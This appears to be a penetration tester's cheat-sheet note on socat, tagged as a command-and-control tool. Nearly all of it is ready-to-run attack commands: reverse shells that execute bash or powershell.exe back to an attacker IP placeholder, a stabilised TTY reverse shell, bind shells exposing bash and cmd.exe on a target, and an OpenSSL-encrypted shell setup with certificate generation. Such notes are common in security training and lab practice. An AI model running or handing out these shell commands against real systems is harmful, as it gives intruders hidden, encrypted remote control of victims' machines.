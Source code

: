**Tags:** #type/tool #tactic/command-and-control 
**Link:** https://www.redhat.com/sysadmin/getting-started-socat
**Purpose:** sophisticated reverse shell tool

---
# Info
sophisticated reverse shell tool, however, special payload is required for connection
static binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
# Usage
## Reverse Shell
start socat listener:
`socat TCP-L:<port> -`
connect to listener:
Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
	the pipes argument forces windows to use unix style pipes
Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
### only for linux: stable reverse shell:
start istener:
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``
to this listener, you can only connect with a special socat payload, which has to be downloaded to the target machine first. See [[3 Tools/shells/Netcat]] section "stabilisation" with socat
connect to listener:
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
- **EXEC:"bash -li"**: interactive shell
-  **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
-  **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells) 
  
-  **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
-  **setsid**, creates the process in a new session
-  **sane**, stabilises the terminal, attempting to "normalise" it.
- 
## Bind Shell
on target:
Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
Windows:`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
on attacker:
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

## Encrypted shell
1. generate certificate (on attacking machine):
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
this creates a key and a certificate file
2. merge the two file into a single -pem file:
`cat shell.key shell.crt > shell.pem`
the pem file has to be used with the listener
**For reverse shell**
1. setup listener
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
2. connect from target
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li"`
**For bind shell**
1. copy .pem file to target
2. setup listener on target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
3. connect from attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

this can be combined with the "tty method" for linux targets by inserting ``FILE:`tty`,raw,echo=0`` in the listener and `,pty,stderr,sigint,setsid,sane` in the connector (insert both in the second argument)
